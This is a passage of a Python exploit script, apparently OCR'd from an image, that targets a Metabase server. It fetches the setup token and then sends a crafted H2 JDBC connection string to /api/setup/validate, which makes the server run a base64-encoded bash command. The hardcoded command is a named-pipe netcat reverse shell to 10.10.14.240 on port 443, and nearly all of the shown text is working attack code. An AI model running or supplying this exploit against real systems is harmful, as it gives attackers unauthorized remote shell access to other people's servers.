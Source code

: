 ```python
            metabase_version = data.get("version", {}).get("tag")

            if setup_token is None:
                print("Setup token not found or is null.")
                return None, None
            else:
                print(f"Setup Token: {setup_token}")
                print(f"Version: {metabase_version}")
                return setup_token, metabase_version
        else:
            print(f"Failed to obtain the token with status code {response.status_code}")
            return None, None
    except requests.exceptions.RequestException as e:
        print(f"Exception occurred: {e}")
        print(f"Failed to connect to {target_host}.")
        return None, None

def send_reverse_shell_request(target_host, setup_token, payload):
    headers = {
        "Content-Type": "application/json"
    }
    shell_url = f"{target_host}/api/setup/validate"
    shell_data = {
        "token": setup_token,
        "details": {
            "details": {
                "subprotocol": "h2",
                "classname": "org.h2.Driver",
                "advanced-options": True,
                "subname":"mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=CREATE ALIAS SHELLEXEC AS $$ void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(new String[]{\"bash\", \"-c\", cmd})\\;}$$\\;CALL SHELLEXEC('{echo," + payload + "}|{base64,-d}|{bash,-i}');"
            },
            "name": "x",
            "engine": "postgres"
        }
    }

    try:
        print(f"Sending POST request to {shell_url}...")
        shell_response = requests.post(shell_url, headers=headers, data=json.dumps(shell_data))
        print(shell_response.text)
    except requests.exceptions.RequestException as e:
        print(f"Exception occurred: {e}")
        print(f"Failed to connect to {shell_url}.")
        return

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Metabase Exploit Script")
    parser.add_argument("-u", "--url", type=str, required=True, help="Target URL (e.g., http://localhost)")

    args = parser.parse_args()

    target_host = args.url
    print(f"Target Host: {target_host}")

    setup_token, metabase_version = get_setup_token_and_metabase_version(target_host)
    command = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.240 443 >/tmp/f"
    payload = encode_command_to_b64(command)
    print("Sending payload: " + payload)
    send_reverse_shell_request(target_host, setup_token, payload)
    print("Reverse shell request sent successfully.")
```